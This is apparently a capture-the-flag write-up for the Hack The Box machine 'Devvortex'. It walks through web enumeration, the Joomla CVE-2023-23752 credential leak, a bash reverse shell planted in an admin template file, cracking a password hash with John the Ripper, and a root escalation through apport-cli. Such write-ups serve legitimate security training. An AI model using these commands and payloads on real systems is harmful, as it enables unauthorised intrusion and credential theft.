 ## Devvortex
### Description
**Author:** 7u9y     
**Difficulty:** Easy
**Machine IP Address:** 10.10.11.242

### Walkthrough
We were given only an IP address for the machine. When I opened the IP address in the browser, I discovered a website running with **devvortex.htb** as the domain URL. Subsequently, I added both the domain and IP address to the **/etc/hosts** file, enabling access to the website using the domain. The figure below illustrates the format of the IP address and domain in the **/etc/hosts** file.

![Host](images/host.png)

Even though I knew the website port was opened, I still used nmap to check which ports were open and what services were running. Nmap showed that ports 22 and 80 were open, confirming there was a website on the server, just like when I tried to open it with the IP address.

![Nmap](images/nmap.png)

The website seemed like a portfolio website. I looked around, checking everything on the site, and even found a form that seemed like it could be useful. But when I checked the form, it turned out it didn't actually do anything. 

![Website](images/website.png)

![Form](images/form.png)

![Form HTML](images/form-html.png)

In the end, the website did not give any hints about how to get into the server. I thought maybe the clues were in another directory. So, I used a tool called **gobuster** to search through different directories on the server. I used a wordlist from seclists and the report will be outputed as a file called "gobuster-dir.o".  
`sudo gobuster dir --url devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster-dir.o`

![Gobuster Dir](images/gobuster-dir.png)

The results did not show any clues. Maybe, there is a subdomain that is related to the domain. To find the subdomain, we have two options: using subdomain enumeration or vhost enumeration with gobuster. When I tried using subdomain enumeration with the DNS command, the enumeration couldn't find a single subdomain related to the target domain. Consequently, I tried using the second option, which is vhost enumeration. "Vhost" is an abbreviated form of virtual hosting, a technique for hosting multiple domain names on a single server. We can include "append domain" to find the subdomain.

![Gobuster DNS](images/gobuster-dns.png)

The command for searching virtual host is `sudo gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -o gobuster-vhost.o`  

![Gobuster VHost](images/gobuster-vhost.png)

After that, we can append the recently found subdomain to the **/etc/hosts** file.

![Append Subdomain](images/subdomain.png)

Then, we can view the website pages and search for any features that may have vulnerabilities.

![Dev Website](images/dev-website.png)

Let's conduct another search through the directories in the subdomain using gobuster.  
`sudo gobuster dir --url dev.devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster-dir.o`

![Gobuster Subdomain Dir](images/gobuster-subdomain.png)

We can observe that numerous directories have been found. However, I came across an interesting directory here, named **administrator**. When we open this directory in the browser, the website indicates that it is running Joomla. 

![Joomla Website](images/joomla.png)

Consequently, we can scan the website using joomscan with the command `sudo joomscan --url http:/dev.devvortex.htb/administrator/`. Now, we know the version of Joomla from the scan result.

![Joomscan](images/joomscan.png)

Because we already know the version, we can search on Google for information about the exploit. I found a [website](https://vulncheck.com/blog/joomla-for-rce)  that discussed the exploit. Joomla has a code execution vulnerability documented in CVE-2023-23752. It has a proof of concept demonstrated by using this command: `curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`.  I employed the exploit command on the machine using the **dev.devvortex.htb** subdomain.

![Curl](images/curl.png)

Here, we discovered the username and password to log in to the administrator web page. The username is **lewis**, and the password is **P4ntherg0t1n5r3c0n##**. Now, we are inside the admin page.

![Admin Page](images/admin.png)

When we go to `System > Administrator Templates > Atum Details and Files`, we can see the login PHP file that we just used for logging in. Because Joomla is vulnerable to code execution, we can run codes from the PHP file. Therefore, I added reverse shell codes `system('bash -c "bash -i >& /dev/tcp/[Your Machine IP Address]/1234 0>&1"');` to the **login.php** file and saved it using the **Save and Close** button.

![Added Reverse Shell](images/reverse-shell.png)

Then, I set up netcat in listening state on port 1234, as indicated in the reverse shell code: `nc -lvnp 1234`.    

![Netcat](images/netcat.png)

Now, we can access the template's login page at `http://dev.devvortex.htb/administrator/templates/atum/login.php` to gain access to the system.  

![Foothold](images/foothold.png)

Next, we need to find the user flag. Although I found the user flag, we still need to leverage the permissions.

![Permission Denied](images/permission.png)

According to the CVE-2023-23752 exploit, it is mentioned that the credentials are for a MySQL account. Therefore, we can check the MySQL database for additional credentials. We will observe a database named **joomla**.

![Database](images/db.png)

Next, we can search the user table for the credentials. Then, we found Logan as the new username with his password.  

![Credentials](images/cred.png)

Unfortunately, we cannot use the password as it is hashed. To crack it, we will use John the Ripper password cracker. First, I copy and paste Logan's hashed password into a file named hash.txt. Then, we can crack it using common wordlists. The result of the cracked password is saved in a file called cracked.txt.  
`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt > cracked.txt`

![Cracked](images/cracked.png)

We can then log in using Logan's account and read the user flag.

![User Flag](images/user.png)

For a better shell, we can SSH to the server using Logan's account and examine the sudo permissions to gather clues about obtaining a root shell.  

![SSH](images/ssh.png)

After obtaining information about the sudo permissions, the apport-cli binary can be run by all users. So, I searched for the exploit of this binary. I found a [website](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) about the exploit. that has the exploit. From that proof of concept (PoC), I created a report named crash.log, pressed V, and entered **!/bin/bash**. I was able to obtain root access.  

![Root Access](images/root-access.png)

Then, I went to the root directory to obtain the root flag.

![Root](images/root.png)

Finally, this machine has been pwned :slightly_smiling_face:
